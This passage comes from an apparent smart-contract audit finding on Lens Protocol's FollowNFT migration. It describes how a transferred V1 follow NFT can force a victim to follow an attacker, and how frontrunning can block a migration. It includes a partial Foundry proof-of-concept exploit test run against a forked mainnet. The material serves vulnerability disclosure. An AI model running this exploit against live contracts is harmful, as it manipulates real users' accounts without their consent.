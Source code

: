 [FollowNFT.sol#L514](https://github.com/code-423n4/2023-07-lens/blob/main/contracts/FollowNFT.sol#L514)

The only caveat is that the "ProfileNFT and FollowNFT should be in the same account":

```solidity
    address followTokenOwner = ownerOf(followTokenId);

    // ProfileNFT and FollowNFT should be in the same account
    if (followerProfileOwner != followTokenOwner) {
        return 0; // Not holding both Profile & Follow NFTs together
    }
```

[FollowNFT.sol#L501-L504](https://github.com/code-423n4/2023-07-lens/blob/main/contracts/FollowNFT.sol#L501-L504)

But this can bypassed by simply transfering a V1 follow NFT from anyone to the victim, who will end up following the adversary unwillingly after the execution of `tryMigrate()`.

Also, as noted on the Impact section, an adversary could prevent that someone else tries to migrate their profile, by frontrunning the tx and moving their token to some other address. It will "fail" silently because of the `return 0; // Not holding both Profile & Follow NFTs together` on the previous code snippet.

### Coded POC

Add this test to `test/migrations/Migrations.t.sol` and run `TESTING_FORK=mainnet POLYGON_RPC_URL="https://polygon.llamarpc.com" forge test --mt "testFakeFollowMigration"`.

Note: In case of a memory allocation error during the Forge test, please comment [these lines](https://github.com/code-423n4/2023-07-lens/blob/main/test/migrations/Migrations.t.sol#L105-L116). They are not used for the current test.

```solidity
    function testFakeFollowMigration() public onlyFork {
        // lensprotocol.lens will be the victim
        // juancito.lens will be the adversary
        // The adversary will make lensprotocol.lens follow them without their consent

        uint256 victimProfileId = 1;       // lensprotocol.lens
        uint256 adversaryProfileId = 3659; // juancito.lens

        uint256 followTokenId = 42;        // juancito.lens follows juancito.lens

        FollowNFT nft = FollowNFT(hub.getProfile(adversaryProfileId).followNFT);
        address adversary = nft.ownerOf(followTokenId); // Owner of juancito.lens

        // 1. Transfer the Lens v1 follow token to the victim
        // This does not automatically imply that they are following the adversary yet
        vm.startPrank(address(adversary));
        nft.transferFrom(address(adversary), hub.ownerOf(victimProfileId), followTokenId);
        assertFalse(nft.isFollowing(victimProfileId));

        // 2. Migrate the fake follow. Anyone can run this
        uint256[] memory victimProfileIdArray = new uint256[](1);
        uint256[] memory adversaryProfileIdArray = new uint256[](1);
        uint256[] memory followTokenIdArray = new uint256[](1);

        victimProfileIdArray[0] = victimProfileId;       // 1
        adversaryProfileIdArray[0] = adversaryProfileId; // 3659
        followTokenIdArray[0] = followTokenId;           // 42

        hub.batchMigrateFollows(victimProfileIdArray, adversaryProfileIdArray, followTokenIdArray);

        // 3. The victim is now following the adversary
        assertTrue(nft.isFollowing(victimProfileId));
```